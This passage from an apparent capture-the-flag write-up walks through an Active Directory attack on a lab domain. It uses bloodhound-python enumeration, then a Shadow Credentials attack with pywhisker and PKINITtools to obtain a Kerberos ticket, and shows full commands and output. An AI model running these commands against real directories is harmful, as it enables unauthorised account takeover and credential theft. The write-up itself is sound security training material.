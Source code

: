 We can now run `bloodhound-python` to collect data.

```console
$ proxychains -q bloodhound-python -ns 10.10.39.152 --dns-tcp -u 'Krampus_Debugger' -p 'Ch[REDACTED]4!' --zip -c All -d socmas.corp
```
{: .wrap }

Uploading the collected data to `BloodHound` and checking the rights our users have, we can see that the `Krampus_Debugger` has a `GenericWrite` right over the `Krampus_Shadow` user.

![Bloodhound Genericwrite](bloodhound_genericwrite.webp){: width="1200" height="600" }

We can use this to perform a `Shadow Credentials` attack and get the `NTLM` hash for the `Krampus_Shadow` user.

First, using `pywhisker` to add a `KeyCredential` to the `msDs-KeyCredentialLink` attribute of `Krampus_Shadow`.

```console
$ proxychains -q python3 pywhisker.py -d 'socmas.corp' -u 'Krampus_Debugger' -p 'Ch[REDACTED]4!' --target 'Krampus_Shadow' --action 'add'
[*] Searching for the target account
[*] Target user found: CN=Krampus_Shadow,OU=Devices,OU=FIN,OU=Tier 1,DC=socmas,DC=corp
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 275aaa0b-c9d0-628d-de25-a5a4ab409116
[*] Updating the msDS-KeyCredentialLink attribute of Krampus_Shadow
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: GOLdx7iM.pfx
[*] Must be used with password: GyaSIpAM2mCDZc1nkjaP
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```
{: .wrap }

After that, we can use the `gettgtpkinit.py` tool from the `PKINITtools` along with the certificate and key generated by `pywhisker` to authenticate to the server and obtain a `TGT`.

```console
$ proxychains -q python3 gettgtpkinit.py SOCMAS.CORP/Krampus_Shadow -cert-pfx GOLdx7iM.pfx -pfx-pass GyaSIpAM2mCDZc1nkjaP krampus_shadow.ccache
2024-12-19 12:04:25,152 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-12-19 12:04:25,240 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-12-19 12:04:40,647 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-12-19 12:04:40,648 minikerberos INFO     ddfea8610c5e634577a7fbe5352990e1327649bbad61335f180b7df9d4e6c462
INFO:minikerberos:ddfea8610c5e634577a7fbe5352990e1327649bbad61335f180b7df9d4e6c462
2024-12-19 12:04:40,652 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
{: .wrap }
